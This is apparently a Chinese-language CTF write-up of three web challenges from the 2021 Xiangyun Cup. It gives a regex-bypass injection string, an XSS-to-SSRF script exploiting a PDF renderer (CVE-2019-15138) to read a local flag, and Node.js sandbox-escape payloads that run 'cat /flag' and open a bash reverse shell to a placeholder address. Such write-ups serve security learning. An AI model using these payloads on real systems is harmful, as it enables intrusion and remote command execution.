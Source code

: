 ```yaml
---
title: '祥云杯2021 Web'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-10-21 12:52:31
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1184447.png
---
```

## [2021祥云杯]Package Manager 2021
虽然还是看不太懂这种js，但是不影响做题。

根据经验先看routes里的index.ts。发现auth处存在字符串的拼接：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021135626.png)

跟进checkmd5Regex

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021135828.png)

没有匹配开头结尾，也就是在后面拼接内容就可以过正则。

写个脚本跑就行。

	ffffffffffffffffffffffffffffffff"||this.password[0]=="!

## [2021祥云杯]secrets_of_admin
用database.ts里给的admin登录

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021143637.png)

进去是个创建pdf的功能
找一下相关代码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021144308.png)

继续往下看，是一个读取文件的接口：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021152012.png)

但是superuser被禁用了

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021152044.png)

而flag就是superuser的

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021152121.png)

所以需要把flag给admin，也就是给admin一个文件名，让他文件名不是flag，和路径拼接到一起时又可以读到flag文件，比如./flag。可/api/files那里又需要本地访问，所以需要ssrf。
不熟悉pdf这里的ssrf，google找到了 CVE-2019-15138

	<script>
	var Troy3e = new XMLHttpRequest();Troy3e.open("GET", "http://127.0.0.1:8888/api/files?username=admin&filename=./flag&checksum=123", true);Troy3e.send();
	</script>

过滤了小标签和script，用数组绕过

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021154834.png)

最后访问/api/files/123。

## [2021祥云杯]cralwer_z
index是普通的注册登录，没有利用点。

user.js有profile、verify、bucket三个路由。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021163054.png)

bucket这里会访问user.bucket，大概这就是利用点了。
首先必须满足如下要求

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021170045.png)

跟一下看看是不是可控的。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021163447.png)

显然我们要满足第一个要求是很容易的，但这里不行，也就是这里不会跳转。
但是只有跳转到verify才会更新bucket。

同时，发到verify的token会失效。这说明我们既要满足personalbucket是我们自己的url，也要能满足跳转到verify成功更新bucket。

所以我们先用默认的bucket发一次请求获取到可以被找到的token

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021170947.png)

再用自己的url发一次包

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211021171005.png)

最后在第一次发的包那里重定向即可更新bucket，访问/user/bucket即可反弹shell。

读flag

	<script>
	a=this.constructor.constructor.constructor.constructor('return process')();b=a.mainModule.require('child_process');c=b.execSync('cat /flag').toString();document.write(c);
	</script>

弹shell

	<script>c='constructor';this[c][c]("c='constructor';require=this[c][c]('return process')().mainModule.require;var sync=require('child_process').spawnSync; var ls = sync('bash', ['-c','bash -i >& /dev/tcp/x.x.x.x/3333 0>&1'],);console.log(ls.output.toString());")()</script>
